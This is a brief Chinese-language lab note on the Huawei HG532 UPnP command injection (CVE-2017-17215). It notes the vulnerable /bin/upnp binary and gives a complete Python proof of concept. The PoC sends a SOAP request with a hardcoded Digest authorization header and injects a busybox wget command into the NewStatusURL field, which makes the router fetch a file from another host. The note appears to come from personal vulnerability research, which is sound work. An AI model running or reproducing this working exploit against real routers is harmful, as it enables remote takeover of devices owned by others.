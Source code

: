 MIPS 32 BE



在`/bin/upnp`下：

![image-20240914121942592](./华为 HG532命令注入 CVE-2017-17215/images/image-20240914121942592.png)



很简单了。

PoC：

```py
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```



可以跟着这篇看看怎么qemu：

```
https://xz.aliyun.com/t/4819?time__1311=n4%2Bxni0Qi%3DDQitma40HwbDyDmx7uKDvP05qwI%3DQx
```

但模拟起来好麻烦啊。。。